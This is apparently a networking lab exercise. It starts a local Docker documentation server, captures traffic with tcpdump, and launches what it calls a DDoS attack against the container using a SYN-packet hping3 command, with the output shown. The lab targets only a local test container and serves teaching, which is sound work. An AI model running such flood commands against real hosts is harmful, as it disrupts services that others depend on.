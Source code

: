 # Task 1

A prerequisite for this task a copy of data collector server is needed, open a terminal and execute the following command:

```git clone https://git.swarmlab.io:3000/docs/Documentation```


Start the data collector server with the following command:

```./build.sh network-scanning```


Output:
```
===> Build docs
swarmlab-documentation
swarmlab-documentation
Using default tag: latest
latest: Pulling from antora
Digest: sha256:843a767ff93237591635109791d45c2112d7263413925f29d3beb244eab7e331
Status: Image is up to date for hub.swarmlab.io:5480/antora:latest
hub.swarmlab.io:5480/antora:latest

-----------------------------------------------------------------------------------------

*** On Error ***

    Get https://hub.swarmlab.io:5480/v2/: x509: certificate
    Pulling …
    ERROR: Get https://hub.swarmlab.io:5480/v2/: x509: certificate signed by unknown authority

*** run ***

    ./0-get-certs.sh

-----------------------------------------------------------------------------------------

---------------------------- *** WSL2 ***  --------------------------

   With Docker Desktop running on WSL 2, users can use: http://127.0.0.1:8080

---------------------------- *********** ---------------------------


[clone] ...git.swarmlab.io:3000/docs/Documentation.git [##########################################]
eth0      Link encap:Ethernet  HWaddr 02:42:AC:11:00:02  
          inet addr:172.17.0.2  Bcast:172.17.255.255  Mask:255.255.0.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2453 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1673 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:3653035 (3.4 MiB)  TX bytes:92843 (90.6 KiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)

Starting up http-server, serving build/site
Available on:
  http://127.0.0.1:8080
  http://172.17.0.2:8080
Hit CTRL-C to stop the server
```

The DDOS attack will target the 172.17.0.2:8080 ip:port.
Open a terminal and start a tcpdump to locate the attack with the following command:

```sudo tcpdump```

Output(after attack):
```
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on veth737dcab, link-type EN10MB (Ethernet), capture size 262144 bytes
19:38:41.464435 IP ubuntu.1988 > 172.17.0.2.http-alt: Flags [S], seq 1852578829, win 512, length 0
19:38:41.464469 IP 172.17.0.2.http-alt > ubuntu.1988: Flags [S.], seq 2181594135, ack 1852578830, win 64240, options [mss 1460], length 0
19:38:41.464483 IP ubuntu.1988 > 172.17.0.2.http-alt: Flags [R], seq 1852578830, win 0, length 0
19:38:42.464619 IP ubuntu.1989 > 172.17.0.2.http-alt: Flags [S], seq 943577023, win 512, length 0
19:38:42.464666 IP 172.17.0.2.http-alt > ubuntu.1989: Flags [S.], seq 1890022353, ack 943577024, win 64240, options [mss 1460], length 0
19:38:42.464682 IP ubuntu.1989 > 172.17.0.2.http-alt: Flags [R], seq 943577024, win 0, length 0
19:38:43.465204 IP ubuntu.1990 > 172.17.0.2.http-alt: Flags [S], seq 1181352384, win 512, length 0
19:38:43.465252 IP 172.17.0.2.http-alt > ubuntu.1990: Flags [S.], seq 2871466929, ack 1181352385, win 64240, options [mss 1460], length 0
19:38:43.465269 IP ubuntu.1990 > 172.17.0.2.http-alt: Flags [R], seq 1181352385, win 0, length 0
19:38:44.465417 IP ubuntu.1991 > 172.17.0.2.http-alt: Flags [S], seq 1496283475, win 512, length 0
19:38:44.465460 IP 172.17.0.2.http-alt > ubuntu.1991: Flags [S.], seq 2364895447, ack 1496283476, win 64240, options [mss 1460], length 0
19:38:44.465477 IP ubuntu.1991 > 172.17.0.2.http-alt: Flags [R], seq 1496283476, win 0, length 0
19:39:41.924688 IP6 ubuntu.mdns > ff02::fb.mdns: 0 [2q] PTR (QM)? _ipps._tcp.local. PTR (QM)? _ipp._tcp.local. (45)
19:39:48.384077 IP6 ubuntu > ip6-allrouters: ICMP6, router solicitation, length 16
^C
14 packets captured
14 packets received by filter
0 packets dropped by kernel
```

Open a third terminal and launch the DDOS attack with the following command:

```sudo hping3 -S 172.17.0.2 -p 8080```

Output:

```
HPING 172.17.0.2 (docker0 172.17.0.2): S set, 40 headers + 0 data bytes
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=0 win=64240 rtt=8.1 ms
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=1 win=64240 rtt=7.6 ms
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=2 win=64240 rtt=7.2 ms
len=44 ip=172.17.0.2 ttl=64 DF id=0 sport=8080 flags=SA seq=3 win=64240 rtt=6.7 ms
^C
--- 172.17.0.2 hping statistic ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max = 6.7/7.4/8.1 ms
```

Evidence of the attack being successful can be noticed in the tcpdump output (packets with zero length are a result of the attack)

